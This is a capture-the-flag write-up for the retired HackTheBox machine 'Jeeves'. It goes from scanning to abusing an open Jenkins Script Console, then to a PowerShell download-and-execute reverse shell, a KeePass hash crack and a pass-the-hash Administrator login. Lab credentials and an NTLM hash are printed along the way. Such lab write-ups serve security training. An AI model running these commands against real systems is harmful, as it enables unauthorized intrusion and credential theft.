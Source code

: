 # Jeeves

This is the write-up for the box Jeeves that got retired at the 19th May 2018.
My IP address was 10.10.14.29 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.63    jeeves.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/jeeves.nmap 10.10.10.63
```

```markdown
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h01m15s, deviation: 0s, median: 5h01m14s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-04T23:45:17
|_  start_date: 2020-03-04T22:53:38
```

## Checking HTTP (Port 80)

On the web page on port 80 there is some kind of search engine:

![Ask Jeeves search engine](jeeves_web-1.png)

When searching for anything it redirects to _/error.html_ which looks like a Microsoft SQL Server error message but is just an image.
This is a rabbit hole.

## Checking HTTP (Port 50000)

On the web page on port 50000 it shows a HTTP Error 404 from **Jetty** an nothing more.
Lets enumerate hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.63:50000 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the directory _/askjeeves_ which directs us to a **Jenkins** dashboard without authorization.

As we have full control over Jenkins, there are several ways to get code execution.
```markdown
Manage Jenkins --> Script Console
```

![Ask Jeeves search engine](jeeves_jenkins-1.png)

In here it is possible to execute **Groovy Script** so lets test out code execution with that:
```markdown
cmd = "whoami"
println cmd.execute().text
```

This outputs the name of the local user _kohsuke_.
So now we can start a reverse shell. I will use the _Invoke-PowerShellTcp.ps1_ script from the **Nishang Framework**:
```markdown
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29/Invoke-PowerShellTcp.ps1')" """
println cmd.execute().text
```

After running this, the listener on my IP and port 9001 starts a reverse shell.

## Privilege Escalation

Now we are the user _kohsuke_ and need an attack surface on the box.
Looking at the files in the home directory _C:\Users\kohsuke_ there is a **KeePass** database in _\Documents_.
I start a SMB server on my local client and mount it on the box, in case there is more to download:
```markdown
# On local client
impacket-smbserver Share `pwd`


# On Jeeves
New-PSDrive -Name "NewShare" -PSProvider "FileSystem" -Root "\\10.10.14.29\Share"
cd NewShare:
cp C:\Users\kohsuke\Documents\CEH.kdbx .
```

This file can be converted into a hash that needs to be cracked:
```markdown
keepass2john CEH.kdbx
```

Cracking it with **Hashcat**:
```markdown
hashcat -m 13400 hash.keepass /usr/share/wordlists/rockyou.txt
```

It gets cracked and the password is:
> moonshine1

There are different passwords in there but the most interesting ones are:
- _DC Recovery PW_ with the username _administrator_ and the password _S1TjAtJHKsugh9oC4VZl_
- _Backup stuff_ with no username and the NTLM hash _aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00_

Trying to login with these credentials:
```markdown
winexe -U jenkins/administrator //10.10.10.63 cmd.exe
```

This does not work so lets try using the NTLM hash for the user _Administrator_ with `pth-winexe`.
```markdown
pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
```

This does a **Pass-The-Hash** attack and logs us in as _Administrator_!

### Looking for the root flag

The flag in the home directory is called _hm.txt_ and has the following content:
> The flag is elsewhere.  Look deeper.

Checking the directory with `dir /r` it seems like the _hm.txt_ file hides the _root.txt_ file via **Alternate Data Stream**.
Using the following command to bypass this:
```markdown
powershell (Get-Content hm.txt -Stream root.txt)
```

This outputs the contents of _root.txt_.
